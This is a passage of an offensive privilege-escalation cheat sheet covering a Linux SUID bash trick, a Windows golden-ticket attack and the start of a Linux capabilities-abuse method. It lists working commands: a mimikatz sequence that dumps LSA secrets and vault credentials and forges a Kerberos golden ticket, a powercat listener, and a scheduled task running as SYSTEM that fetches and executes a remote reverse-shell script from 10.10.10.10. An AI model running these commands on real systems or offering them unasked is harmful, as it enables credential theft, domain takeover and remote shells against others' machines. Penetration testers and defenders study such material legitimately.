 Methods:

1.  echo \'chmod +s /bin/bash\' \> /home/user/systemupdate.sh

2.  chmod +x /home/user/systemupdate.sh

3.  Wait a while

4.  /bin/bash -p

5.  id && whoami

<a name="golden-ticket-with-scheduled-tasks"></a>
# Golden Ticket With Scheduled Tasks

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abusing Scheduled Tasks

Methods:

1.mimikatz\# token::elevate

2.mimikatz\# vault::cred /patch

3.mimikatz\# lsadump::lsa /patch

4.mimikatz\# kerberos::golden /user:Administrator /rc4:\<Administrator
NTLM(step 3)\> /domain:\<DOMAIN\> /sid:\<USER SID\>
/sids:\<Administrator SIDS\> /ticket:\<OUTPUT TICKET PATH\>

5.powercat -l -v -p 443

6.schtasks /create /S DOMAIN /SC Weekly /RU \"NT Authority\\SYSTEM\" /TN
\"enterprise\" /TR \"powershell.exe-c \'iex (iwr
http://10.10.10.10/reverse.ps1)\'"

7.schtasks /run /s DOMAIN /TN \"enterprise"

<a name="abusing-interpreter-capabilities"></a>
# Abusing Interpreter Capabilities

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Capabilities

Methods:

1.  getcap -r / 2\>/dev/null

    a.  /usr/bin/python2.6 = cap_setuid+ep

